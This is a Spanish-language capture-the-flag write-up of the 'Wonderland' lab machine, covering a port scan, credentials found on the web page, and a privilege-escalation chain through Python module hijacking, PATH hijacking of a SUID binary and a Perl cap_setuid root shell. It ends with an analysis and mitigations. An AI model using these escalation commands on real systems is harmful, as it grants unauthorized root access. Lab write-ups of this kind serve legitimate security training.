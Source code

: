 # Wonderland

## Initial Scan
```
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 8e:ee:fb:96:ce:ad:70:dd:05:a9:3b:0d:b0:71:b8:63 (RSA)
|   256 7a:92:79:44:16:4f:20:43:50:a9:a8:47:e2:c2:be:84 (ECDSA)
|_  256 00:0b:80:44:e6:3d:4b:69:47:92:2c:55:14:7e:2a:c9 (ED25519)
80/tcp open  http    Golang net/http server (Go-IPFS json-rpc or InfluxDB API)
|_http-title: Follow the white rabbit.

```
## Enum
### HTPP 
#### Gobusting
```
/img
/poem
/r/a/b/b/i/t <- alice:HowDothTheLittleCrocodileImproveHisShiningTail
```

## Privesc
Con estas creds estamos logeados como alice
### Alice
```
User alice may run the following commands on wonderland:
    (rabbit) /usr/bin/python3.6 /home/alice/walrus_and_the_carpenter.py
```
El script al que llamamos tiene la siguiente estructura
```
import random
# poem
for i in range(10):
    line = random.choice(poem.split("\n"))
    print("The line was:\t", line)
```
Creemos un modulo de python llamado random con la siguiente función
```
import os

def choice(string):
	os.system("/bin/bash")
```

Con esto en la carpeta en la que estamos lanzamos el siguiente comando
```
sudo -u rabbit /usr/bin/python3.6 /home/alice/walrus_and_the_carpenter.py
```
### Rabbit
#### SUID
```
/home/rabbit/teaParty
```
Este binario es extraño y tiene el SUID de hatter, corramoslo con ltrace
```
ltrace ./teaParty
setuid(1003)                                                                              = -1
setgid(1003)                                                                              = -1
puts("Welcome to the tea party!\nThe Ma"...Welcome to the tea party!
The Mad Hatter will be here soon.
)                                              = 60
system("/bin/echo -n 'Probably by ' && d"...Probably by Thu, 20 Aug 2020 20:38:38 +0000
 <no return ...>
--- SIGCHLD (Child exited) ---
<... system resumed> )                                                                    = 0
puts("Ask very nicely, and I will give"...Ask very nicely, and I will give you some tea while you wait for him
)                                               = 69
getchar(1, 0x560b3f0c5260, 0x7f59805288c0, 0x7f598024b154
)                                = 10
puts("Segmentation fault (core dumped)"...Segmentation fault (core dumped)
)                                               = 33
+++ exited (status 33) +++
```
La llamada al sistema es interesante, aunque no se muestra entera, veamosla con cat
```
/bin/echo -n 'Probably by ' && date --date='next hour' -RAsk very nicely, and I will give you some tea while you wait for him
```
Se llama a date sin especificar la ruta, ahi tenemos nuestro punto de fallo
```
rabbit@wonderland:/home/rabbit$ mkdir tools
rabbit@wonderland:/home/rabbit$ cd tools
rabbit@wonderland:/home/rabbit/tools$ echo '/bin/bash' > date 
rabbit@wonderland:/home/rabbit/tools$ PATH=$PWD:$PATH
rabbit@wonderland:/home/rabbit$ ./teaParty 
```
### Hatter
No se por que no enumere antes capabilities, pero si las miramos tenemos lo siguiente
```
hatter@wonderland:~$ getcap -r / 2> /dev/null
/usr/bin/perl5.26.1 = cap_setuid+ep
/usr/bin/mtr-packet = cap_net_raw+ep
/usr/bin/perl = cap_setuid+ep
```
Dos setuid caps, podemos abusar de ellas desde cualquier user
```
/usr/bin/perl -e 'use POSIX (setuid); POSIX::setuid(0); exec "/bin/bash";'
```
Y ya somos root

# Analisis de la intrusión
### Sensible data leak
Las credenciales de Alice quedaron expuestas en la pagina web
### Vuln python script
El script de walrus_and_the_carpenter.py que puede ser ejcutado por alice como Rabbit es vulnerable a un python path hijacking de modo que hemos podido usarlo para escalar lateralmente a rabbit
### Vuln bin with suid
El binario de teaParty utiliza una llamada sin la ruta completa a date, esto permite que efecutemos un PATH hijacking escalando  lateralmente a hatter
### Perl Set UID capabilities 
La capability cap_setuid+ep esta activa en los binarios de perl, esto nos ha permitido escalar hasta root


# Solucion
### Vuln python script
Hay varios parches que habria que hacer para mitigar esto:
* 1. Hacer el PYTHONPATH no modificable
* 2. Mover el script a una carpeta donde no tenga permiso de escritura el resto de usuarios
* 3. Eliminar la posibilad de ejecutar este script como otro usuario
### Vuln bin with SUID
Hay dos tipos de parche posibles, el primero quitat el SUID de aquí y cortariamos de raíz el problema, el segundo podemos usar la ruta absoluta para llamar al binario de date
### Perl Set UID capabilities
La contramedida posible seria quitar la capabilitie de los dos binarios de perl que la tienen activa
